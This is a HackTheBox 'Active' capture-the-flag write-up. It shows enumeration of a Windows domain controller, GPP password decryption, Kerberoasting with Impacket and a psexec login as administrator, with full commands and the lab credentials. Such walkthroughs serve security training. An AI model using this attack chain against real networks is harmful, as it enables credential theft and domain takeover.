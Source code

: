 ```yaml
---
layout: default
title : muzec - Active Writeup
---
```



![image](https://user-images.githubusercontent.com/69868171/124292498-8b3e1b00-db4d-11eb-9d81-3b1b2033ad6c.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Fri Jul  2 05:11:00 2021 as: nmap -sC -sV -oA nmap 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.39s latency).
Not shown: 981 closed ports
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
82/tcp    filtered xfer
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-02 12:13:11Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
2383/tcp  filtered ms-olap4
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
49152/tcp open     msrpc         Microsoft Windows RPC
49153/tcp open     msrpc         Microsoft Windows RPC
49154/tcp open     msrpc         Microsoft Windows RPC
49155/tcp open     msrpc         Microsoft Windows RPC
49157/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h00m56s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-02T12:14:16
|_  start_date: 2021-07-02T04:37:58

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 05:13:37 2021 -- 1 IP address (1 host up) scanned in 157.11 seconds
```

Windows and it my first on HackTheBox so we have many ports so i start my enumeration on the SMB port to check if anonymous logins is allowed.

`smbclient -L //10.10.10.100/ -N`

![image](https://user-images.githubusercontent.com/69868171/124294416-909c6500-db4f-11eb-8d5b-afe7f3466c52.png)

I decided to use `SMBMAP` also to check which of the share we have access to.

`smbmap -H 10.10.10.100`

![image](https://user-images.githubusercontent.com/69868171/124294821-0a345300-db50-11eb-800f-3faca42f7083.png)

Seems we have read permission on the `Replication` share let use `smbclient` to log in.

`smbclient  //10.10.10.100/Replication -N`

![image](https://user-images.githubusercontent.com/69868171/124295159-6bf4bd00-db50-11eb-8630-02162a5f5dc2.png)

Going through all files in the share i found something cool with credentials store in it.

![image](https://user-images.githubusercontent.com/69868171/124295628-fa693e80-db50-11eb-9ec5-107d6cde84bf.png)

`cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` 

I try doing some research on the `Groups.xml` file i got on the SMB share.

Group Policy Preference (GPP) file. GPP was introduced with the release of Windows Server 2008 and it allowed for the configuration of domain-joined computers. A dangerous feature of GPP was the ability to save passwords and usernames in the preference files. While the passwords were encrypted with AES, the key was made publicly available.

So if we managed to compromise any domain account, we can simply grab the groups.xml file and decrypt the passwords.

![image](https://user-images.githubusercontent.com/69868171/124296301-b32f7d80-db51-11eb-9dc1-565ea2b65f6f.png)

Now we know we are on the right track let hit it. We have a username also a password which is encrypted let find a way to decrypt it.

![image](https://user-images.githubusercontent.com/69868171/124296559-04d80800-db52-11eb-9dc9-eedb5f058b05.png)

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

gpp-decrypt is present on kali and gpp-decrypt is a simple ruby script that will decrypt a given GPP encrypted string.

We know have a valid credentials to get access to the machine username: `SVC_TGS` password: `GPPstillStandingStrong2k18` also we know we are working on a active directory machine we can use the credentials we have now to query for a ticker.

Now let’s try a technique known as Kerberoasting.  Kerberoasting is one of the most common attacks against domain controllers. It is used to crack a Kerberos (encrypted password) hash using brute force techniques.

![image](https://user-images.githubusercontent.com/69868171/124298654-6ac58f00-db54-11eb-98e0-a5d8a5d92588.png)

If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

Now time for us to use `Impacket` and it can easily be install with the command below;

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/
python setup.py install #install software
```

Done installing we will be using the ` GetUserSPNs.py` script let try to locate it.

![image](https://user-images.githubusercontent.com/69868171/124299670-9b59f880-db55-11eb-8f27-5a36d5c30d24.png)


`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request` 

And boom We were able to request a TGS from an Administrator SPN.

If you find this error from Linux: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) it because of your local time, you need to synchronise the host with the DC: `ntpdate IP of DC`

Now that we have the hash let crack it using john the ripper save in a file name `hash` .
  
![image](https://user-images.githubusercontent.com/69868171/124300528-96497900-db56-11eb-9c22-4fdde6c07803.png)

We have credentials for administrator now let use `psexec.py` to get access to it through the SMB share.
  
`psexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100` 

![image](https://user-images.githubusercontent.com/69868171/124301085-3acbbb00-db57-11eb-9524-a06f99cd55bf.png)

we are system let go get the flags lol.

![image](https://user-images.githubusercontent.com/69868171/124301449-c47b8880-db57-11eb-986d-cfa7a9e7e881.png)

Now let get the administrator Flag.
  
![image](https://user-images.githubusercontent.com/69868171/124301625-fdb3f880-db57-11eb-9de4-57a20d1f1e0d.png)

We are done damn it right actually my first Windows machine more to come and keep updating.
  

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
